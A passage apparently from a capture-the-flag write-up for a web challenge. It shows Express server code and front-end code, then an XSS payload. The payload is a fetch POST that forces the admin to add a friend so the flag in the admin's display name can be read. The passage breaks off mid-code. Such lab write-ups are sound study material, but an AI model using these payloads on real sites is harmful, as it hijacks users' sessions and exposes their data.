 ```javascript  
                };  
            })  
        )  
    );  
});

app.get("/friends", needsAuth, (req, res) => {  
    res.type("application/json");  
    res.send(  
        JSON.stringify(  
            accounts  
                .get(res.locals.user)  
                .friends.filter((username) => accounts.has(username))  
                .map((username) => ({  
                    username,  
                    displayName: accounts.get(username).displayName,  
                }))  
        )  
    );  
});

app.listen(port, () => {  
    console.log(`Listening on port ${port}`);  
});

```  
**index.html**  
```javascript  
fetch("/friends")  
    .then((res) => res.json())  
    .then((friends) => {  
        const list = document.getElementById("friendlist");  
        if (friends.length === 0) {  
            const ele = document.createElement("p");  
            ele.innerText = "you have none :(";  
            list.appendChild(ele);  
        }  
        for (const f of friends) {  
            const ele = document.createElement("p");  
            ele.innerText = `${f.displayName} (${f.username})`;  
            list.appendChild(ele);  
        }  
    });  
```  
We can see that the flag will be set as the name of the Administrator user. Names can be seen with the /friends endpoint, so using XSS, we can use a POST request to /friend and become "friends" with the administrator.  
**Exploit**  
```javascript  
fetch('/friend',{  
    method:'POST',  
    headers:{  
        "Content-type":'application/x-www-form-urlencoded'  
    },  
    body:'username=admin'  
})  
```  
With only a fetch request, we can use the metapost feature and see that it is replacing `$CONTENT` in the post.html file.  
```javascript  
const postTemplate = fs.readFileSync(path.join(__dirname, "post.html"), "utf8");  
app.get("/post/:id", (req, res) => {  
    if (posts.has(req.params.id)) {  
```